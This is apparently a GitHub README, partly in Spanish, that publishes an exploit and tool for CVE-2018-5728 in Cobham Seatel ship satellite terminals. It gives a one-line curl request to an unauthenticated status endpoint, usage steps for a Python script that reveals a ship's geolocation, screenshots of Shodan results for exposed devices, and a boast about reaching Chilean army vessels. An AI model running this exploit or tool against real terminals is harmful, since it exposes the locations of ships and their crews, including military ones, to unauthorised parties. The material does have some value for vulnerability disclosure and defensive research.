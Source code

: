 # Terminales Seatel 
Las embarcaciones que ocupan la plataforma satelital Seatel (de la firma Cobham), cuenta con una serie de vulnerabilidades sobre los servicios de la misma terminal, que podría permitir fácilmente a terceros no autorizados entre otras cosas conocer su geolocalización.

![seatel_home](img/Radomos.jpg) 


#  [Exploit] Terminales Seatel 

	[*] Exploit Title:      "Sensitive exposure from Seatel satellite terminal" 
	[*] CVE:                 CVE-2018-5728
	[*] CVSS Base Score v3:  7.1 / 10
	[*] CVSS Vector String:  CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N/E:F/RL:W/RC:C
	[*] Exploit Author:      Fernandez Ezequiel ( twitter:@capitan_alfa )

	

### Simple PoC:

```
	$> curl "http://<dvr_host>:<port>/cgi-bin/getSysStatus"

```
## In the Wild:
![seatel_dorks_0](img/shodan_poc_1.png) 


# TOOL: "Seatel exposed ship"

## Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/seatel_terminals.git
	usr@pwn:~$ cd seatel_terminals
	Usr@pwn:~$ python seaTel.py --host <host>

## help

	usage: seaTel.py [-h] [-v] --host HOST [--port PORT]

	[+] Where are you ship ?

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    Host
	  --port PORT    Port (default 80)

	usr@pwn:~$ python seaTel.py --host <host>


## Pocs (Output) :
![seatel_poc_4](img/poc_tool_1.png)
![seatel_poc_4](img/poc_tool_2.png)


### Extra: CHILE ARMY !!!
![chile_army_1](img/2.jpg)
![chile_army_2](img/4.jpeg)


### Blog:
https://misteralfa-hack.blogspot.com/2019/08/cobham-terminales-satelitales-seatel.html


I see you... ! xd
